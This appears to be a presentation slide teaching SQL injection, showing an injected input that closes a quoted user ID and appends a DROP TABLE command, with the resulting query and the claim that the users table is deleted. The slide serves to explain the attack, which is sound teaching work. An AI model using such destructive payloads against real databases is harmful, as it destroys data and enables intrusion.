

# SQL Injection Queries
Query for deleting Table-
	Input- a’ ; DROP TABLE users ;#
	Query- SELECT userid,name FROM users WHERE userid=‘a’; DROP TABLE 	users ;#’
	Output – Through this query the table ‘users’ is droped